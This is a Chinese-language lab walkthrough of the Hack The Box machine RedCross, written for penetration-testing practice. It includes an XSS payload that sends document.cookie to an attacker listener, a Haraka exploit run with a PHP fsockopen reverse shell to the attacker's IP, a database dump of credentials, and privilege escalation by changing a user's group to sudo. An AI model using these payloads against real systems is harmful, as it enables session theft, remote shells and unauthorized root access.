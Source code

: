 ```yaml
---
description: 中等 / XSS / PostgreSQL
---
```


# ✔️ RedCross

## 建立立足点

### 信息收集

* 使用Nmap进行对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA redcross 10.129.9.55 --open
```

<figure><img src="../../.gitbook/assets/1 (33).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，发现它重定向到https://intra.redcross.htb/这个地址，将域名添加到/hosts文件中，然后再次访问，获得一个登录页面：

<figure><img src="../../.gitbook/assets/2 (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/3 (28).png" alt=""><figcaption></figcaption></figure>

* 尝试几个弱口令均失败后，使用dirsearch扫描是否有隐藏文件/目录，没什么收获：

```bash
dirsearch -u  http://10.129.9.55 -x 403,404,400
```

<figure><img src="../../.gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

* 使用Wfuzz尝试扫描子域，发现有两个结果：

```bash
wfuzz -c -u https://intra.redcross.htb -H "Host:FUZZ.redcross.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl
```

<figure><img src="../../.gitbook/assets/5 (1).png" alt=""><figcaption></figcaption></figure>

* 将以上子域也添加到/hosts文件中，再访问admin这个子域就获得了一个管理登录界面，简单尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

* 找到的两个登录界面也没有查看到所使用的公开已知的软件信息，因此无法通过常规的搜寻公开已知漏洞进行利用。在当前没有任何有效凭证的情况下，尝试暴力破解无果。决定从头枚举，发现遗漏了对443端口的扫描：

```bash
dirbuster -u https://intra.redcross.htb:443 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -r
```

* 陆续又扫出一些目录和页面：

<figure><img src="../../.gitbook/assets/8 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (28).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

* 花了大量的时间进行扫描，实在是没找到什么有用的东西和凭证，所以决定从已经枚举出的页面进行测试。因为其他几个都是登录页面，所以先从有输入框的contact页面开始进行XSS测试，先寻找XSS注入点。
* 首先简单写个\<script>脚本标签，依次放入不同的输入框中进行POST提交，观察有无返回信息，以及返回信息的具体内容：

<figure><img src="../../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

* 当把\<script>脚本标签放入contact phone or email这个框中时，返回了已发送的提示，说明此时我们已找到了注入点：

<figure><img src="../../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

* 然后开始构建注入语句，先简单测试一下和本机是否通信：

```html
# 在输入框中
<script src="http://10.10.16.17:8888/test"></script>
# 在Kali本机做好监听
nc -lvnp 8888
```

<figure><img src="../../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>

* 然后构建一个尝试获取有效的会话cookie的语句，当能获取到有效的cookie时，我们就能将该cookie放入自己的浏览器中，绕过原有的密码输入，伪装成该用户进行登录：

<pre class="language-html"><code class="lang-html">nc -lvnp 8888
<strong>&#x3C;script>new Image().src="http://10.10.16.17:8888/test.php?c="+document.cookie;&#x3C;/script>
</strong></code></pre>

<figure><img src="../../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 此时已获取到了有效的PHPSESSIONID，并且后面的域是指向admin的，说明是admin这个页面的cookie，去admin页面登录。替换掉原有的PHPSESSIONID，然后刷新页面即可登录成功：

<figure><img src="../../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21.png" alt=""><figcaption></figcaption></figure>

* 进入Network Access，发现是一个设置白名单的界面，将自己的IP先添加进去：

<figure><img src="../../.gitbook/assets/22.png" alt=""><figcaption></figcaption></figure>

* 进入User Management里，添加一个新用户，获得了系统生成的密码，同时还发现了另一个用户tricia：

<figure><img src="../../.gitbook/assets/44.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

* 尝试用这个有效凭证登录之前的intra页面，登录失败：

<figure><img src="../../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

* 但是根据Nmap的扫描结果，还有一个SSH服务，利用这个有效凭证登录成功：

<figure><img src="../../.gitbook/assets/26.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27.png" alt=""><figcaption></figcaption></figure>

* 里面并没有flag，但是找到了另外一个新用户：penelope
* 因为已经将自己的IP地址加入了目标系统的白名单，再次扫描开放端口发现多了几个：

```bash
nmap -sC -sV -p- -oA redcross2 10.129.6.250 --open
```

<figure><img src="../../.gitbook/assets/28.png" alt=""><figcaption></figcaption></figure>

* 尝试匿名登录FTP失败：

<figure><img src="../../.gitbook/assets/29.png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出结果，5432端口上运行了postgresql服务，尝试用默认凭证登录不成功：

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

* 还剩下一个1025端口，因为该端口上运行的并不是常规的服务，所以可以使用netcat和该端口上的服务进行交互，从而获取到它运行的服务名和版本等信息：

```bash
nc -vvvv 10.129.6.250 1025
```

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

* 得到服务为：Haraka 2.8.8，然后搜索相关公开漏洞发现有一个远程命令注入：

<figure><img src="../../.gitbook/assets/33.png" alt=""><figcaption></figcaption></figure>

* 下载搜索到的脚本到本地：

<figure><img src="../../.gitbook/assets/34.png" alt=""><figcaption></figcaption></figure>

* 查看帮助信息如何使用该脚本，并且查看脚本内容发现默认端口处需要修改为目标的开放端口1025：

<figure><img src="../../.gitbook/assets/35.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/36.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/37.png" alt=""><figcaption></figcaption></figure>

* 利用该脚本执行反弹shell，此处用到常用的pentestmokey reverse shell中的PHP反弹shell：

<figure><img src="../../.gitbook/assets/38.png" alt=""><figcaption></figcaption></figure>

```bash
# 注意需要转义符，并在kali本机做好监听
python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.16.17\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.129.6.250
```

<figure><img src="../../.gitbook/assets/39 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/40.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/41.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 常规的枚举检查，没有找到可以利用的点：

<figure><img src="../../.gitbook/assets/42.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/43.png" alt=""><figcaption></figcaption></figure>

* 依次检查目标系统上的各个目录，在/var/www/html/admin/pages目录下找到几个php文件，其中actions.php、login.php、users.php里面都包含了大量的可用于连接postgresql的用户凭证：

<figure><img src="../../.gitbook/assets/45.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/46.png" alt=""><figcaption></figcaption></figure>

* 使用以上用户凭证连接数据库，该文件中已经包含了table名，直接查询获得之前admin界面的两个用户凭证：

```bash
psql -h 127.0.0.1 -p 5432 -U unixusrmgr -d unix
# 查询表里的用户名和密码
SELECT * FROM passwd_table;
```

<figure><img src="../../.gitbook/assets/48.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/47 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 因为系统中的每一个用户都有唯一的UID和GID，当可以滥用sudo配置将任意用户添加进sudo组，就能通过sudo命令执行root权限才能执行的命令，实现提权。查询sudo组的ID为27，将之前新添加进去的用户fiii的GID改为27：

```bash
# 在postgresql中
update passwd_table set gid=27 where uid=2021;
```

<figure><img src="../../.gitbook/assets/49 (1).png" alt=""><figcaption></figcaption></figure>

* 之前已经由目标系统生成了新用户的凭证，所以直接登录ssh服务，然后切换超级用户即可实现提权：

```bash
ssh fiii@10.129.111.68
sudo su
```

<figure><img src="../../.gitbook/assets/50.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/52.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例完成的并不顺利，对我来说有一些难度。Get Shell阶段当没有任何收获时，多换几个工具扫描试试，但不能一味指望着扫描能扫出来东西，会浪费很多时间。靶场的机器名字有时是关于所使用的应用的漏洞提示，有时还可以是关于攻击手法的提示。权限提升阶段涉及到对目标系统各个文件夹的枚举，并不是因为某第三方软件或者系统有漏洞，而是属于滥用sudo配置可将任意用户添加进sudo组所导致的提权成功。

(本例机器中途重置过，IP地址有变化，但不影响漏洞利用及其实现结果)
{% endhint %}
